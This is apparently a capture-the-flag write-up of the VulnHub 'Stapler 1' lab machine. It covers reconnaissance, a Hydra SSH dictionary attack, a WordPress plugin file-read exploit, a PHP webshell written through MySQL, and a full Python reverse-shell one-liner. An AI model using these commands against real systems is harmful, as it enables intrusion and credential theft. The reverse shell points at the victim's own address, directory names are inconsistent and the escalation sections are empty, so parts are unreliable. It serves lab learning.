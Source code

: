 # Stapler 1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/stapler-1,150/ "URL for stapler 1").

## Information Gathering

Using the `ifconfig` command, we have determined that our attacking machine's IP address is 10.0.2.5. We can then use the command `nmap -sn 10.0.2.0/24` to scan the local subnet to find what the victim's IP address is.

![](images/ping.png "Using nmap -sn 10.0.2.0/24 to find the IP address of our victim")

From these found IP addresses, we can narrow down our victim's IP address by seeing that only two addresses are identified as VirtualBox machines, and that knowing the address 10.0.2.3 is used by VirtualBox as its name server, meaning that our victim is at address 10.0.2.9.

## Scanning

Running the command `nmap -sV 10.0.2.9 -p 1-65535` will run tell us the services and their versions on all ports on the victim.

![](images/nmap.png "nmap -sV 10.0.2.9 -p 1-65535 will scan across all ports")

We can see that nmap was unable to recognize a service that was running on port 666, and that is what the extra text at the end comes from.

Because the victim is running smbd on port 139, we can use the command `enum4linux 10.0.2.9` to get more information about the host. It will show us information about users, group membership, password policy, and more.

![](images/enum4linux.png "enum4linux 10.0.2.9 provides us with more useful information")

In this case, we're interested in the usernames, as with the usernames, we can conduct dictionary attacks against them to see if anyone has a vulnerable password. We create the wordlist by taking the user information found through `enum4linux` and placing the usernames into a text file, in this case I called the file users.txt.

![](images/users.png "All users on the victim machine")

## Gaining access

Throughout the time I poked around this virtual machine, I found several ways to gain access to it, and I will list them in their own sections.

### Method 1: dictionary attack

With the wordlist that we made, we can use THC-Hydra to perform a dictionary attack against these usernames to see if we can get valid SSH credentials. Starting off simple, instead of using a wordlist, we will try to see if any of the users have a password that is blank, the same as their username, or the same as their username reversed. This is performed with the command `hydra -t 4 -L users.txt -e nsr ssh://10.0.2.9`. We use the `-t 4` option because SSH has issues handling many requests at a time, so we limit hydra to four threads so it doesn't get overloaded.

![](images/hydra.png "Using THC-Hydra to perform a dictionary attack")

We've found valid SSH credentials for the SHayslett user, and we can use this to connect to the victim with the command `ssh SHayslett@10.0.2.9` and entering the password when prompted.

### Method 2: WordPress vulnerability

From our `nmap` scan, we can see that the victim has an HTTP service running on ports 80 and 12380. We can use `nikto` to get more information about the services running to see if we can find any more useful information. The command `nikto -h 10.0.2.9` will scan the default port 80 on the victim for outdated versions or improper configurations.

![](images/nikto1.png "Scanning port 80 with nikto")

We didn't find too much information, just that a user home directory had a shell rc and shell profile exposed, and that the server might be vulnerable to clickjacking or XSS, but these won't help us get access to the machine itself.

Next, we'll scan port 12380 with nikto by using the command `nikto -h 10.0.2.9:12380`.

![](images/nikto2.png "Scanning port 12380 with nikto")

From this scan, we can tell that the web service running on this port is using SSL, and that the robots.txt entry has two directories that we can take a look at. These directories are /admin11223/ and /blogblog/. It also alerts us that the /phpmyadmin/ directory exists as well.

We'll use a web browser to explore the two web services running on the machine.

![](images/404.png "Opening http://10.0.2.9 in a web browser")

Opening up `http://10.0.2.9` in a web browser will give us a 404 page, meaning that we're not likely to find an attack vector here. Instead, we'll try to load `http://10.0.2.9:12380`.

![](images/12380.png "Opening http://10.0.2.9:12380 in a web browser")

Now we get a screen that says the website will be coming soon, so we're probably not going to find much here either. Remembering that `nikto` said that 10.0.2.9:12380 is using SSL, we'll try loading `https://10.0.2.9:12380`.

![](images/https.png "Opening https://10.0.2.9:12380 in a web browser")

Now, we get a page proclaiming that it's the internal index page. With the other information we gathered from `nikto`, we can try loading `https://10.0.2.9:12380/admin112233` and `https://10.0.2.9:12380/blogblog`.

![](images/admin112233 "Opening https://10.0.2.9:12380/admin112233 in a web browser")

Opening the admin112233 listing tells us that we could have been hooked by a BeEF-XSS hook and nothing else, so we're not too interested in this listing. We'll try the blogblog directory next.

![](images/wordpress.png "Opening https://10.0.2.9:12380/blogblog in a web browser")

This directory is a blog for Initech, and by scrolling down, we come to see that it is powered by WordPress. This means that we can try out WPScan to see if there are any vulnerabilities in the implementation. The command `wpscan --url https://10.0.2.9:12380/blogblog --enumerate ap` will scan for any vulnerabilities in the base wordpress installation and print out the plugins being used as well as any associated vulnerabilities if found.

![](images/plugins.png "All wordpress plugins in use on the victim")

As the base installation didn't provide a feasible attack vector, we'll focus on the plugins. Using `searchsploit`, we can find any available exploits for the plugins. The command `searchsploit advanced video` will give us an exploit for the plugin, which we can copy to our local directory with `searchsploit -m 39646`.

![](images/searchsploit.png "An exploit for the advanced video plugin")

This exploit works by leveraging a vulnerability in the plugin that will publish a post with an image in it, but the image data is received by a call to the file\_get\_contents() function, which will accept any file given to it that can be read. In this case, it will read the contents of the wp-config.php file, which is the configuration file for the WordPress installation. More information about the exploit can be found [here](https://www.exploit-db.com/exploits/39646/ "A link to the exploit").

Before the exploit can run properly, it needs a little tweaking. First, we need to point the url variable to the WordPress location, in this case `https://10.0.2.9:12380/blogblog`. Next, the exploit had an issue with the SSL certificate for the site, so I modified the exploit to import the ssl Python module with `import ssl` and added a line `ssl._create_default_https_context = ssl._create_unverified_context`. The final exploit is seen below.

![](images/exploit.png "The final version of the exploit")

Running the exploit with `python 39646.py` will create a post with an embedded image that instead of being an image, contains the contents of the wp-config.php file.

![](images/result.png "The result of running the exploit")

From the website, we can see that the file is called 1506946168.png, and we can download it with the command `wget --no-check-certificate https://10.0.2.9:12380/blogblog/wp-content/uploads/1506946168.png`.

Reading the file with `cat 1506946168.png` shows us that the MySQL database associated with WordPress has hard-coded credentials, namely the username "root" and the password "plbkac".

![](images/cat.png "Hard-coded credentials for the database")

We can use these credentials to connect to the database with the command `mysql -u root -p -h 10.0.2.9` and entering the password when prompted. We can then run the command `select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";` to create a webshell at `https://10.0.2.9:12380/blogblog/wp-content/uploads/shell.php` that will execute any command that we type into the URL as the cmd parameter.

![](images/shell.png "Creating a webshell on the server")

An example of how we can get our shell to run a command would be entering the URL `https://10.0.2.9:12380/blogblog/wp-content/uploads/shell.php?cmd=id` in our web browser, which will run the `id` command and display the result.

![](images/cmd.png "Running the id command in our webshell")

Now we can use this to get local access to the victim, by starting a listener on our attacker with the command `nc -lvp 4444` and then putting the command `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.9",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` in the cmd parameter of the link, which will turn out to be the URL `https://10.0.2.9:12380/blogblog/wp-content/uploads/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.9%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27` after proper URL formatting.

![](images/local.png "Getting local machine access with our webshell")

## Escalating priviliges

I also found a few ways of escalating from local to root privileges on this virtual machine, so I will describe the different ways I used.

### Method 1: command history

### Method 2: vulnerable cronjob
